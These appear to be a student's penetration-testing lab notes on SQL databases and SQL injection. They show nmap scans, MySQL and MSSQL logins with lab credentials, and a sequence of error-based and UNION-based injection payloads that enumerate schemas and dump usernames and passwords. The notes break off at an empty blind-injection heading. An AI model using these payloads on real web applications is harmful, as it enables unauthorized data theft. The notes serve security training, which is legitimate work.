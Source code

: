 [SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
[MySQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)
## SQL DB TYPES AND THEORY
MySQL and Microsoft SQL Server (MSSQL) most common
Identify the port using NMAP

### MYSQL
sudo nmap -T5 --top-ports=500 -sS 192.168.238.16

Nmap scan report for 192.168.238.16
Host is up (0.045s latency).
Not shown: 496 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql              ----HERE IS THE PORT #
8000/tcp open  http-alt
8080/tcp open  http-proxy

After seeing the port, go to mysql if username/password provided

$ mysql -u root **-p'root'** -h 192.168.238.16 -P 3306
**(-p = Password)  (-P= Port)**

MySQL [(none)]> 

SIMPLE VERSION/SYSTEM AND DATABASE INFO
-MySQL [(none)]> select version ();
+------------+
| version () |
+------------+
| 8.0.21     |
+------------+
-MySQL [(none)]> select system_user();
+---------------------+
| system_user()       |
+---------------------+
| root@192.168.45.181 |
+---------------------+
-MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+

Sample of using finding an authentication string from an user
![[Pasted image 20230930080712.png]]

### MSSQL 
Impacket
Run Nmap to identify the service
┌──(hollacosta㉿kali1)-[~]
└─$ sudo nmap -T5 --top-ports=500 -sS 192.168.238.18                      
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
**1433/tcp open  ms-sql-s**    -------HERE IS MSSQL
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

└─$ impacket-mssqlclient Administrator:Lab123@192.168.238.18 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation


Encryption required, switching to TLS
 ENVCHANGE(DATABASE): Old Value: master, New Value: master
 ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
 INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
ACK: Result: 1 - Microsoft SQL Server (150 7208) 
 Press help for extra shell commands
SQL> 

SQL> SELECT @@version;
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
        Sep 24 2019 13:48:23 
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2022 Standard 10.0 Build 20348: ) (Hypervisor)

SQL> SELECT name FROM sys.databases; -SHOWS DBS
name                                                                                         
master                                                                                       
tempdb                                                                                      
model                                                                                                
SQL> select * from offsec.dbo.users;    ---INFO ABOUT DB
username     password     

admin        lab          

guest        guest      

## SQL INJECTION ATTACKS
If you can use a ' at the end and receive a response, you can interact with the database
![[Pasted image 20230930093732.png]]

after finding the ' gets a response, you can use a cmd like this to find more information to interact further with it

offsec' OR 1=1 == //

![[Pasted image 20231001051716.png]]
' or 1=1 in **(select @@version)** -- //   -----**This is where the query goes!**

using a specific criteria will most likely provide you with the desired result
```
' or 1=1 in (SELECT password FROM users) -- //
```

![[Pasted image 20231001053044.png]]

being more specific would give you the information you desire (e.g. admin password)
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
![[Pasted image 20231001053200.png]]


### UNION BASE SQL ATTACKS
some databases could be attacked using UNION SQL queries; The **UNION**[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/sql-injection-attacks/manual-sql-exploitation/union-based-payloads#fn1) keyword aids exploitation because it enables execution of an extra SELECT statement and provides the results in the same query, thus concatenating two queries into one statement. use this to see all the info for the users in the database

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

![[Pasted image 20231001054044.png]]

this could be use to determine the exact columns (if you get an error, you know you have exceeded the amount)
![[Pasted image 20231001054147.png]]

Use this command to enumerate the database. **use the % sign to retrieve ALL the information from the DB**
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

![[Pasted image 20231001054233.png]]

this cmd will give you an exact query info about the user (**no % use in this query since we know the specific info we are looking for**)
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![[Pasted image 20231001054619.png]]

with this  cmd, we are attempting to enumerate the db
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![[Pasted image 20231001054924.png]]
with the next command, we are attempting to dump the user name, password and description
```
' UNION SELECT null, username, password, description, null FROM users -- //
```
![[Pasted image 20231001055033.png]]

### BLIND SQL INJECTIONS
